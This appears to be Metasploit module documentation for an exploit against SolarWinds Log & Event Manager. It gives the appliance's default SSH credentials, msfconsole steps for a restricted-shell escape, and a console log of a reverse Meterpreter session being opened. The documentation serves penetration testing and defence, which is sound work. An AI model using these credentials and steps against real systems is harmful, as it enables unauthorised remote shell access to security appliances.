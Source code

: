 ## Vulnerable Application

This module exploits the default credentials of SolarWind LEM. A menu system is encountered when the SSH service is accessed with the default username and password which is "cmc" and "password". By exploiting a vulnerability that exist on the menuing script, an attacker can escape from restricted shell.

Vulnerable application can be download as a free trial from vendor webpage.
[http://www.solarwinds.com/log-event-manager](http://www.solarwinds.com/log-event-manager)

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/ssh/solarwinds_lem_exec`
  3. Do: `set rhost <ip>`
  4. Do: `set lhost <ip>`
  5. Do: `exploit`
  6. You should get a shell.

## Scenarios

This is a run against a known vulnerable Solarwinds LEM server.
```
msf exploit(solarwind_lem_exec) > exploit 

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] 12.0.0.154:32022 - Attempt to login...
[+] SSH connection is established.
[*] Requesting pty... We need it in order to interact with menuing system.
[+] Pty successfully obtained.
[*] Requesting a shell.
[+] Remote shell successfully obtained.
[+] Step 1 is done. Managed to access terminal menu.
[+] Step 2 is done. Managed to select 'service' sub menu.
[+] Step 2 is done. Managed to select 'service' sub menu.
[+] Step 3 is done. Managed to start 'restrictssh' function.
[+] Step 4 is done. We are going to try escape from jail shell.
[+] Sweet..! Escaped from jail.
[*] Delivering payload...
[*] Sending stage (38651 bytes) to 12.0.0.154
[*] Meterpreter session 3 opened (12.0.0.1:4444 -> 12.0.0.154:43361) at 2017-03-17 21:59:05 +0300
[-] Exploit failed: Errno::EBADF Bad file descriptor
[*] Exploit completed, but no session was created.

msf exploit(solarwind_lem_exec) > sessions -i 1 
[*] Starting interaction with 1...

meterpreter > getuid
Server username: cmc
meterpreter > 
```

